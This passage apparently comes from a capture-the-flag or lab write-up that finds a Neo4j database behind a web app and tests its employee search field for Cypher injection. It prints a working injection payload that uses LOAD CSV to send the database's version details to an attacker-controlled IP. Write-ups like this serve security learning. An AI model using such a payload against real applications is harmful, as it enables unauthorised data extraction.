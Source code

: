 Taking into account the earlier information about port 7687 and this new finding, it appears that the application is utilizing a Neo4j database.

![Todo-list](./images/todo-list.png)

There's a search field in the employee tab which could to be querying a database. Given that the database is Neo4j, it's possible that this could be a case of [cypher injection](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j#get-labels). Cypher is the query language for the Neo4j database

![employee-search-field](./images/employee-search-field.png)

Using this payload for cypher injection exfiltrated the neo4j version using `LOAD CSV FROM <URL>`,

```info
test' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.16/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```

The HTTP server's response indicates that the version is 5.6.
